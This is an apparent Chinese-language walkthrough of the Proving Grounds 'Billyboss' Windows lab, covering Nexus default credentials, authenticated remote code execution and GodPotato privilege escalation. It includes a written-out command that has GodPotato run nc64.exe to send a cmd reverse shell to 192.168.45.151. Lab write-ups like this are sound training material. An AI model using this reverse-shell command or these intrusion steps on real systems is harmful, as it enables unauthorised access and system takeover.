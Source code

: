 ```yaml
---
title: Proving Grounds Practice-Billyboss-Windows
date: 2025-7-01 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250701151820117](./Billyboss-Windows/image-20250701151820117.png)

# nexus漏洞利用

![image-20250701154554349](./Billyboss-Windows/image-20250701154554349.png)

该版本存在经过身份验证的远程代码执行

上网搜索nexus的默认密码，最终尝试出来密码为`nexus:nexus`

先上传nc.exe,然后利用nc反弹shell

![image-20250701154815970](./Billyboss-Windows/image-20250701154815970.png)

![image-20250701155009073](./Billyboss-Windows/image-20250701155009073.png)

![image-20250701155021549](./Billyboss-Windows/image-20250701155021549.png)

# 提权

可以通过该权限来提权,工具来源：

[BeichenDream/GodPotato --- BeichenDream/GodPotato](./https://github.com/BeichenDream/GodPotato)

![image-20250701162039996](./Billyboss-Windows/image-20250701162039996.png)

![image-20250701161945997](./Billyboss-Windows/image-20250701161945997.png)

通过该工具来运行nc反弹shell

```
GodPotato-NET4.exe -cmd "cmd /c C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe -e cmd 192.168.45.151 81"
```

![image-20250701162439296](./Billyboss-Windows/image-20250701162439296.png)